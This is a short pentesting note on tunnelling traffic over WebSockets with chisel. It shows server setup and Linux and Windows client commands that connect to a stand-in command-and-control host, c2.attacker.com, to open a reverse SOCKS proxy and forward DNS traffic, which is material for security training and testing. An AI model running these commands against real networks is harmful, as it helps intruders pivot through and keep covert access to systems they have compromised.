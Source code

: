```yaml
---
title: WebSockets Tunnel
---
```


[[notes/tunneling/index]] over the [[notes/network/websocket]] protocol.

Start an unauthenticated [[notes/tools/chisel]] server on Linux.

~~~ bash
chisel server --port 80 --socks5 --reverse --auth proxy:"$(uuidgen -r | tee /dev/stderr)"
~~~

Alternatively start a server with authentication where the user `proxy` can bind only to unprivileged ports on localhost.

~~~ bash
cat << 'EOF' > ./users.json
{
  "proxy:passw0rd": [
    "^R:127\\.0\\.0\\.1:[0-9]{4,5}$"
  ]
}
EOF
chisel server --port 80 --socks5 --reverse --authfile ./users.json
~~~

Connect with the client from Linux to establish a reverse [[notes/pivoting/socks-proxy]].

~~~ bash
./chisel client --fingerprint $fingerprint --auth proxy:'passw0rd' http://c2.attacker.com R:127.0.0.1:1080:socks
~~~

Connect with the client from Windows to forward local port 53/udp to port 5300 on the server.

~~~ bat
.\chisel.exe client --fingerprint %fingerprint% --auth proxy:"passw0rd" http://c2.attacker.com R:127.0.0.1:1080:socks 53:127.0.0.1:5300/udp
~~~

> **Note:**
> In at least one instance a HTTP proxy blocked WebSocket connections.
> This can be verified on [piesocket.com](https://www.piesocket.com/websocket-tester).

Untested tools:

- [github.com/meteorite/chisel](https://github.com/Meteorite/chisel/tree/feature-socks-udp-associate), fork with SOCKS5 UDP support
- [wstunnel](https://github.com/erebe/wstunnel), chisel alternative written in Rust, with UDP support
